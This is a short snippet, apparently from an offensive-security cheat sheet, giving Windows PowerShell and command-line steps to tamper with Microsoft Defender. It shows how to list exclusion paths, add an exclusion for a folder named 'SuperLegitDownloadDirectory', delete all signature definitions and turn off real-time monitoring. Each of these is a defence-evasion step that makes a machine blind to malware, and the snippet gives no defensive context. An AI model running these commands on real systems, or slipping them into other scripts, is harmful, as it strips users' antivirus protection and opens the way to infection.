     //Check for Exclusions:
        Get-MpPreference | select-object -ExpandProperty ExclusionPath
    //Add Exclusion:
        Add-MpPreference -ExclusionPath "C:\Users\Public\Downloads\SuperLegitDownloadDirectory"
    //*Remove Signatures:
        "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
    //*Disable:
        Set-MpPreference -DisableRealtimeMonitoring $true